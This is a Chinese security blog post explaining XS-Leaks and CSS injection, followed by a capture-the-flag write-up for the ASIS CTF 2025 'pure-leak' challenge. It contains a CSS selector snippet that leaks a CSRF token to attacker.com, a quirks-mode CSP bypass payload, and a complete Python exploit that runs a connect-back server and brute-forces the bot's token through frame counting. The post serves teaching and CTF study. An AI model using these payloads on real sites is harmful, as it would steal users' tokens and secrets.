# XS-Leaks与CSS注入攻击原理及实战-先知社区

> **来源**: https://xz.aliyun.com/news/18886  
> **文章ID**: 18886

---

## XS-Leaks

简单来说就是 xss 中的侧信道、盲注

浏览器提供了各种各样的功能来支持不同 Web 应用程序之间的交互；例如，它们允许网站加载子资源、导航或向其他应用程序发送消息。虽然这些行为通常受到 Web 平台内置的安全机制（例如[同源策略](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)）的限制，但 XS-Leaks 却利用了网站之间交互过程中暴露的小块信息。

XS-Leak 的原理是利用网络上可用的侧通道来泄露用户的敏感信息，例如他们在其他网络应用程序中的数据、有关他们本地环境的详细信息或他们所连接的内部网络。

e.g.

网站不得直接访问其他网站的数据，但可以加载其他网站的资源并观察其副作用。例如，evil.com被禁止显式读取来自bank.com的响应，但evil.com可以尝试加载来自bank.com 的脚本并判断该脚本是否加载成功。

例子

假设*bank.com*有一个 API 端点，它返回有关用户针对给定类型交易的收据的数据。

1. *evil.com*可以尝试将 URL *bank.com/my\_receipt?q=groceries加载为脚本。默认情况下，浏览器在加载资源时会附加 Cookie，因此对bank.com*的请求将携带用户的凭据。
2. 如果用户最近购买过杂货，脚本会成功加载并返回*HTTP 200*状态码。如果用户尚未购买杂货，则请求加载失败并返回*HTTP 404*状态码，从而触发[错误事件](https://xsleaks.dev/docs/attacks/error-events/)。
3. 通过监听错误事件并使用不同的查询重复此方法，攻击者可以推断出有关用户交易历史的大量信息。

在上面的示例中，两个来自不同来源的网站（*evil.com*和*bank.com*）通过浏览器允许网站使用的 API 进行了交互。此次交互并未利用浏览器或*bank.com*中的任何漏洞，但仍然允许evil.com获取有关bank.com上用户数据的信息。

目前常见的几种XS-Leaks打法，例如：

1. 浏览器 API（例如[帧计数](https://xsleaks.dev/docs/attacks/frame-counting/)和[计时攻击](https://xsleaks.dev/docs/attacks/timing-attacks/)）
2. 浏览器实现细节和错误（例如[连接池](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/)和[typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch)）
3. 硬件错误（例如推测执行攻击[4](https://xsleaks.dev/#fn:4)）

## CSS Injection

当禁用 js 时，可以考虑 css injection，简单来说就是把**恶意 CSS 代码**插入到目标网页里，从而影响页面渲染，甚至借此窃取信息，通过 css 来完成类似 js 代码实现的效果

e.g.

最常见的就是 Attribute Selector

CSS 选择器被构造来匹配 input 元素的 name 和 value 属性的值。如果 input 元素的 value 属性以特定字符开头，则会加载预定义的外部资源

```
input[name="csrf"][value^="a"] {
background-image: url(https://attacker.com/exfil/a);
}
input[name="csrf"][value^="b"] {
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name="csrf"][value^="9"] {
background-image: url(https://attacker.com/exfil/9);
}
```

上面代码的目的是探测 csrf 的值，若匹配到对应值则请求对应网址，通过监听网址就能还原其值。然而，这种方法在处理隐藏的 input 元素（type="hidden"）时存在一个限制，因为隐藏元素不会加载背景。

**CSS Injection 的前提条件**

为了使 CSS Injection 技术有效，必须满足以下条件：

1. **Payload Length**: CSS 注入向量必须支持足够长的 payloads，以容纳构造的 selectors。
2. **CSS Re-evaluation**: 你需要能够对页面进行框架化（frame the page），以触发使用新生成的 payloads 进行 CSS 的重新评估。
3. **External Resources**: 该技术假定可以使用外部托管的 images。站点的 Content Security Policy (CSP) 可能会限制此类访问。

## [Asisctf-Quals2025]pure-leak

源码是 php + js



web/index.php

```
<?php
function validate(mixed $input): string {
  if (!is_string($input)) return "Invalid types";
  if (strlen($input) > 1024) return "Too long";
  if (preg_match('/[^\x20-\x7E\r
]/', $input)) return "Invalid characters";
  if (preg_match('*http|data|\\|\*|\[|\]|&|%|@|//*i', $input)) return "Invalid keywords";
  return $input;
}
?>
<!DOCTYPE html>
<html>
<body>
  <h1>pure-leak 🫨</h1>
  <h3>Source</h3>
  <pre><?php echo htmlspecialchars(file_get_contents(__FILE__)); ?></pre>
  <h3>Content</h3>
  <?php echo validate($_GET["content"] ?? "{{ your_input }}")."
"; ?>
  <h3>Token</h3>
  <?php echo htmlspecialchars($_COOKIE["TOKEN"] ?? "TOKEN_0123456789abcdef"); ?>
  <h3>Usage</h3>
  <a href="/?content=your_input">/?content=your_input</a>
</body>
</html>
```

根据题目名都大概可以猜出是打 xs-leak ，也很明显看到可以把输入直接插入 html 中

<?php echo validate($\_GET["content"] ?? "{{ your\_input }}")."\
"; ?>

web/entrypoint.sh 设置了 csp

```
#!/bin/sh
set -eu

# load balancing
php -S 127.0.0.1:9000 &
php -S 127.0.0.1:9001 &
php -S 127.0.0.1:9002 &
php -S 127.0.0.1:9003 &

cat > /tmp/Caddyfile << EOF
:3000 {
  header {
    defer
    Content-Security-Policy "script-src 'none'; default-src 'self'; base-uri 'none'"
  }

  reverse_proxy 127.0.0.1:9000 127.0.0.1:9001 127.0.0.1:9002 127.0.0.1:9003 {
    replace_status 200
  }
}
EOF

exec caddy run --config /tmp/Caddyfile
```

以上差不多就是 web 端的代码， bot 端的代码的话没啥好说的，和常规 xss 没啥区别

综上，整理下思路，可以将代码嵌入 html 中，有个黑白名单，有 csp，目的是拿到管理员 token。题目名已经暗示了是 xs-leak 了，这里后端用的是 php 而不是直接用 js，猜测可能和 php 的某些特性有关（当时没想到这，赛后从上帝视角看出来的）

### php warning 进入 Quirks Mode

想要绕过 csp 的话可以想到 css injection，但是这里在使用 css injection 的 payload 如 <link rel="stylesheet" href="..."> 时需要响应的 Content-Type 是 text/css 才会生效，但是这里后端是 php，默认的 Content-Type 头是 test/html

但是在怪异模式（document.compatMode === "BackCompat"）中放宽了 MIME 检查，只要同源，就算不是 text/css，也会当作 CSS 加载

但是这里开头为 <!DOCTYPE html> ，强制进入了标准模式（document.compatMode === "CSS1Compat"）

在 [pilvar](https://x.com/pilvar222/status/1784618120902005070?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1784618120902005070%7Ctwgr%5E%7Ctwcon%5Es1_&ref_url=about%3Asrcdoc) 的文章中他提到可以用 php warning 来绕过 csp，其挑战源码为



在 php 中，有三种方式可以触发警告



一旦参数数量超过其定义的 maximum 值，就会触发 php warning，触发 php warning 之后，body 就立马发出，导致 csp 没机会再写入 header 头中，从而绕过了 csp 限制



但是这里 header 头是由 Caddy 统一添加的，不能直接通过 php warning 绕过，但是其可以帮我们进入怪异模式

可以看到开头不再是 <!DOCTYPE html>，而是警告



确定进入了怪异模式



### css injection 构造

但是还是不行，因为这里有 /\* ，将后面的内容全部注释掉了，而且 waf 掉了 \* ，不能用 \*/ 提前闭合，所以不能直接插入到这个页面中



这时可以利用 404 报错页面来进行 css injection



在 404 页面定义好 payload，再请求就好了

```
location = "http://pure-leak.asisctf.com:3000?content=" +
  encodeURIComponent('<link href="/not-found.txt?{}body{background:red}>" rel=stylesheet') +
  "&a".repeat(1000);
```

这里 {} 的作用是清理掉前缀的垃圾，让后面的 css 规则能被正常解析



禁用了 [ 和 ] ，说明不能直接通过属性选择器 input[value^="TOKEN\_012"] 来正则匹配获取 token，这里我们可以用:valid和<input> 的 pattern 来实现同样的效果

pattern 属性用法

<input pattern="正则表达式" value="用户输入">

用户输入若满足正则则返回 valid，否则返回 invalid

:valid CSS 伪类

```
input:valid { background: green; }
input:invalid { background: red; }
```

输入合法时变绿，不合法时变红

### Frame Counting 实现 xs-leaks

这里 token 是由 bot 来注入的，也就是说要用 bot 来检测，bot 无法分辨颜色，必须要找到一个具体能检测的值，这里用到 Frame Counting，参考：<https://xsleaks.dev/docs/attacks/frame-counting/>

嵌入 <embed> 或 <object> 时会使 window.length 加1



隐藏的话就不会加1



这里我们可以匹配到了就隐藏，让length为0，否则就不隐藏，让length为1，从而实现不借助外来资源进行爆破

exp.py

```
import os
import sys
import time
import requests
from flask import Flask, request, Response

BOT_BASE_URL = os.getenv("BOT_BASE_URL", "http://localhost:1337")
CONNECTBACK_HOST = os.getenv("CONNECTBACK_HOST", "0.0.0.0")
CONNECTBACK_PORT = int(os.getenv("CONNECTBACK_PORT", "8080"))
CONNECTBACK_URL = os.getenv(
    "CONNECTBACK_URL",
    f"http://{os.getenv('PUBLIC_IP','attacker.example.com')}:{CONNECTBACK_PORT}",
)

HTML_PAYLOAD = f"""\
<body>
  <script type="module">
    const BASE_URL = "http://web:3000";
    const sleep = (ms) => new Promise(r=>setTimeout(r,ms));
    const TOKEN_SIZE = 16;
    let known = "TOKEN_";
    const win = open("");
    const CHARS = [..."0123456789abcdef"];

    const match = async (pattern) => {{
      win.location = "about:blank";
      while (true) {{
        try {{ win.origin; break; }} catch {{ await sleep(3); }}
      }}
      const content = `
        <link href="/not-found.txt?{{}}div:has(input:valid){{display:none}}" rel=stylesheet>
        <div>
          <embed code="x" type=text/html>
          <input pattern=".+${{pattern}}.+" value="
      `;
      const url = `${{BASE_URL}}?content=${{encodeURIComponent(content)}}${{"&a".repeat(1000)}}`;
      win.location = url;
      while (true) {{
        try {{ win.origin; await sleep(3); }} catch {{ break; }}
      }}
      await sleep(100);
      return win.length === 0;
    }};

    for (let i=0;i<TOKEN_SIZE;i++) {{
      let l=0,r=CHARS.length;
      while (r-l>1) {{
        const m=(l+r)>>1;
        const p="(" + CHARS.slice(l,m).join("|") + ")";
        if (await match(known+p)) r=m; else l=m;
      }}
      known += CHARS[r-1];
      navigator.sendBeacon("/debug", known);
    }}
    navigator.sendBeacon("/token", known);
  </script>
</body>
"""

app = Flask(__name__)

@app.route("/")
def index():
    return Response(HTML_PAYLOAD, mimetype="text/html; charset=utf-8")

@app.route("/debug", methods=["POST"])
def debug():
    print("[DEBUG]", request.get_data(as_text=True))
    return ""

@app.route("/token", methods=["POST"])
def token():
    token_val = request.get_data(as_text=True)
    flag = requests.post(f"{BOT_BASE_URL}/api/verify", json={"token": token_val}).text
    print({"token": token_val, "flag": flag})
    os._exit(0)
    return ""

def submit_report():
    try:
        r = requests.post(f"{BOT_BASE_URL}/api/report", json={"url": CONNECTBACK_URL})
        print("Report status:", r.status_code, r.text)
    except Exception as e:
        print("Report failed:", e)
        sys.exit(1)

if __name__ == "__main__":
    from threading import Thread
    server_thread = Thread(
        target=lambda: app.run(host=CONNECTBACK_HOST, port=CONNECTBACK_PORT, threaded=True, debug=False),
        daemon=True,
    )
    server_thread.start()

    time.sleep(3)
    print("Listening on", CONNECTBACK_URL)
    submit_report()

    time.sleep(60)
    print("Timeout: exploit failed")
```



## 参考

<https://xsleaks.dev/>

<https://book.hacktricks.wiki/zh/pentesting-web/xs-search/css-injection/index.html#css-injection>

<https://blog.arkark.dev/2025/09/08/asisctf-quals>
